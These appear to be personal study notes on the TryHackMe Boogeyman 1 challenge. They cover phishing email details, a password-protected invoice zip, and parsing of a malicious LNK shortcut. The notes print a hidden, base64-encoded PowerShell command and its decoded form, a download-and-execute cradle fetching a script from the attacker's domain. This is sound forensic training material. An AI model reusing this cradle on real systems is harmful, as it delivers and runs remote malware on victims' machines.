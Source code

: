# Boogeyman 1 CTF Notes

**Overview**:  
These notes document my investigation process for the Boogeyman 1 Capture The Flag (CTF) challenge on TryHackMe. The challenge involved analyzing a phishing attack, investigating malicious PowerShell activity, and performing network forensics to uncover data exfiltration. The notes showcase skills in email analysis, command-line tools (`unzip`, `lnkparse`, `jq`), PowerShell log parsing, and network analysis with Wireshark and Tshark. The Tshark section was inspired by a TryHackMe walkthrough, which helped deepen my familiarity with the tool.

**Skills Demonstrated**:  
- Email and phishing analysis  
- File extraction and analysis (`unzip`, `lnkparse`, CyberChef)  
- PowerShell log parsing (`jq`, `grep`)  
- Network forensics (Wireshark, Tshark)  
- Understanding of malware execution and data exfiltration techniques

**Personal Notes**:  
The attacker used `sq3.exe` to target an SQLite database, likely for data extraction. This is a critical artifact for future investigations.

## Email Investigation

**Phish Email Details**:  
- Sender: `agriffin@bpackaging.xyz`  
- Victim: `julianne.westcott@hotmail.com`

**Zip File Analysis**:  
- Command: `unzip -l Invoice.zip`  
  - **Purpose**: Lists the contents of `Invoice.zip` without extracting, revealing a password-protected file named `Invoice_20230103.lnk`.

- Found password in email data: `invoice2023!`  
- Command: `unzip -P invoice2023! Invoice.zip`  
  - **Purpose**: Extracts the contents of `Invoice.zip` using the provided password, inflating the file `Invoice_20230103.lnk`.

**LNK File Analysis**:  
- Used `lnkparse` on `Invoice_20230103.lnk` to extract embedded command line arguments:  
  - Encoded command: `-nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAYwBrAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==`  
  - **Purpose**: `lnkparse` extracts metadata and command line arguments from the Windows shortcut (.lnk) file.

- Decoded using CyberChef with 'From Base64' and 'Remove null bytes':  
  - Result: `iex (new-object net.webclient).downloadstring('http://files.bpackaging.xyz/update')`  
  - **Purpose**: The decoded PowerShell command uses `Invoke-Expression` (`iex`) to execute a script downloaded from `http://files.bpackaging.xyz/update` using the `net.webclient` object, likely retrieving and running malicious code.

**Notes**:  
- The purpose of the downloaded script requires further investigation to understand its full impact.

---